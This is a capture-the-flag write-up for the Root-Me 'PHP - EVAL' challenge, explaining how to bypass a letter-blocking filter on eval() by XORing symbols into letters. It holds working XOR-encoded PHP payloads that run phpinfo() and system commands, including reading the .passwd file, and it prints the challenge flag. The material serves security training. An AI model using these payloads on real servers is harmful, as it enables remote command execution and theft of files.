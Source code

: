 ```yaml
---
title: "Advanced Filter Bypass | PHP - EVAL Rootme"
date: 2024-04-17
categories: [CHALLENGES, PHP - EVAL]
tags: [CHALLENGES, CTF] 
---
```



Hello, In this Writeup, I will explain methods for executing non-alphabetical PHP code to bypass PHP filters in [PHP - EVAL](https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-Eval) challenge.

## Challenge Source Code Analysis.
```php
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>

```

The PHP script first checks whether a POST parameter named `input` is present. If the input does not contain letters or backticks, it is evaluated as PHP code using eval(), with the result printed on the screen. However, if letters or backticks are detected, the script issues a warning: "Dangerous code."

## Spotting the bug.
After some research on Google, I discovered a method to bypass this filter, which is **Bypass using Non-alphabetical Character Encoding.** Let's discuss it, and we can use [onlinegdb](https://www.onlinegdb.com/) to test and run PHP code easily and quickly. In PHP, we can use the XOR operator between characters (not just numbers) to generate a different character.

![img_screenshot](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/c1b4322b-f443-47b2-8b02-fab5c3e1f748)

## Manuel Exploiting.
So, here's the idea behind our attack: what if we could reproduce an alphabetical character by xoring two non-alphabetical characters? How can we achieve this?

The XOR operator works like this: When you XOR any two numbers, it produces a result. If you XOR this result with one of the original numbers, you'll get the third number.

For example, let's say we want to produce the character s by XORing two unknown characters.

Steps to perform the attack:
- Get the ASCII decimal value of the letter **s**, which is 115, using the ord() function in Python.

- Select a random non-alphabetical character, such as **@**, and get its ASCII decimal value, which is 64.

- XOR these two decimal values and convert the result into a character using the chr() function in Python.

- Check if the resulting character is alphabetical. The goal is to ensure the character is non-alphabetical, so it can bypass the filter.

- Finally, XOR the random non-alphabetical character with the number obtained from the XOR operation, which will give us the letter we need.


![img_screenshot1](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/734892cd-9efc-4dd0-b1c7-ea3e436aadb7)

I can now try this payload in our challenge website:  `"@"^"3"`

![img_screenshot2](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/66e4baa4-2430-46c6-a9e2-5ffd554a6857)

## Automated Exploitation.
Nice, we can now automate this process using python, I write a simple python script to automate this task which 
is [php-non-alphabetical-Encoder](https://github.com/0XMohomiester/PHP-Non-Alphabetical-Encoder.git)

we can now use it to generate `phpinfo` word to execute `phpinfo()` in the server.

```python
python3 php-non-alpha-encoder.py phpinfo
("+"^"[").("("^"@").("+"^"[").(")"^"@").("."^"@").("&"^"@").("/"^"@")
```
**How can we call this payload as a function?**

In PHP, if we declare `$__` as a variable and store the generated string from the tool in it, we can call it as `$__();` to execute it as a PHP function. We can use it like this:
```php
$__ = ("+"^"[").("("^"@").("+"^"[").(")"^"@").("."^"@").("&"^"@").("/"^"@");
$__();
```

![img_screenshot3](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/36cbf8b5-d666-4f00-8797-3c03e61e01c5)

we can use payload like this:  `system("ls -la")` to run system commands

```php
$_1 = (","^"@").("("^"[");
$_2 = "-"; 
$_3 = (","^"@").("!"^"@"); 
$__ = ("("^"[").("$"^"]").("("^"[").(")"^"]").("%"^"@").("-"^"@");  
$__($_1 . " " . $_2 . $_3);
```

Good, Command executed and flag inside `.passwd` file. 

![img_screenshot4](https://github.com/0XMohomiester/Cyborg_Cybertalents/assets/47929033/4555d2f6-6ab0-472d-9f54-552cfa6a62ff)


We can now generate payload like : `system("cat .passwd")` to get the flag.

```php
$_1 = ("#"^"@").("!"^"@").(")"^"]");
$_2 = ("+"^"[").("!"^"@").("("^"[").("("^"[").("("^"_").("$"^"@");
$__ = ("("^"[").("$"^"]").("("^"[").(")"^"]").("%"^"@").("-"^"@");
$__($_1 . " " . "." . $_2);
```
and Finally here is our flag : `M!xIng_PHP_w1th_3v4l_L0L`

![img_screenshot5](https://github.com/0XMohomiester/Cyborg_Cybertalents/assets/47929033/6ad9a53d-60af-4421-836b-6a9dc2be8e77)


Thanks for reading.

Follow me on [Linkedin](https://www.linkedin.com/in/0xmohomiester/)
